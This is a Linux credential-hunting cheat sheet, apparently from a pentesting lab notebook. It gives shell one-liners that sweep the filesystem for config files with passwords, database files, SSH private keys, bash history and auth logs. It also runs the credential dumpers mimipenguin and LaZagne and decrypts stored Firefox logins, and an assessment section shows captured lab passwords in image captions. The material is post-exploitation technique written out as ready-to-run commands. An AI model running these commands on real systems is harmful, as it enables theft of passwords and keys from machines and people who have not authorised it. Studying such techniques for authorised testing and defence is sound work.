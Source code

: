 # Credentail Hunting

## **Files**

### **Credentials in Configuration Files**

```bash
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

### **Databases**

```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

### **Notes**

```shell-session
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

> Notes is chalenging to find due to the name of the file could be anything and might not have an extension. We can scan for all of those file and look at the file names manually

### **Scripts**

```shell-session
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

### **Cronjobs**

```shell-session
cat /etc/crontab
```

```shell-session
ls -la /etc/cron.*/
```

### **SSH Keys**

#### **SSH Private Keys**

```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

#### **SSH Public Keys**

```bash
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

### **Bash History**

```shell-session
tail -n5 /home/*/.bash*
```

### **Logs**

```shell-session
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

## **Memory**

### **Mimipenguin**

```shell-session
sudo python3 mimipenguin.py
#or
sudo bash mimipenguin.sh 
```

### laZagne

To run the python package of laZagne.py you have to move the entire directory of the linux package from the github since it has all the dependencies.

```shell-session
sudo python3 laZagne.py all
```

### **Firefox Stored Credentials**

```shell-session
ls -l .mozilla/firefox/ | grep default 
```

```shell-session
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

#### **Decrypting Firefox Credentials**

```shell-session
python3 firefox_decrypt.py
```

## Assessment

<figure><img src="../../../.gitbook/assets/image (72).png" alt=""><figcaption><p>kira:L0vey0u1!</p></figcaption></figure>

Running lazagne.py will give us the following

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption><p>TUqr7QfLTLhruhVbCP</p></figcaption></figure>

